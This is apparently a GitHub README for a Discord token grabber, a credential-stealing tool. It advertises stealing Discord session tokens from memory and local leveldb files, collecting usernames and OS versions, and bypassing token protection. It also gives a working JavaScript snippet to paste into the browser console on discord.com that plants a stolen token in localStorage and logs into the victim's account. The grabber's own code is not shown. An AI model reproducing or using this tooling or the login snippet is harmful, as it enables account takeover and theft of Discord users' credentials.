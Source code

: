 # Discord-Token-Grabber
![Token-Stealer](https://i.imgur.com/cpK3bNV.jpeg)

# Features 
* Steal 
  * Token directly From memory 
  * Token from ldb files
  * username
  * os version
  * bypass any kind of token protection


# How to login using token
* open inspect element in https://discord.com/ ,copy and paste this code in console  

```js
function login(token) {
setInterval(() => {
document.body.appendChild(document.createElement `iframe`).contentWindow.localStorage.token = `"${token}"`
}, 50);
setTimeout(() => {
location.reload();
}, 2500);
}
```
* use `login("token");` then refresh the webpage ,and you will login automatically to the account using only token
